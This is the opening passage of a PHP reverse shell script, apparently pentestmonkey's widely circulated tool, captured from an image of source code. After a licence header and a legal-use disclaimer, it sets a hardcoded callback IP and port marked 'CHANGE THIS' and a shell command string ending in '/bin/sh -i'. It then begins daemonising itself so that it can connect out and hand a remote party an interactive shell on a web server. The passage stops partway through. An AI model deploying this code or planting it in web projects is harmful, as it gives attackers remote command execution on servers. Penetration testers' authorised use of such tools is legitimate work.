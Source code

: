 ```php
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }

        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
```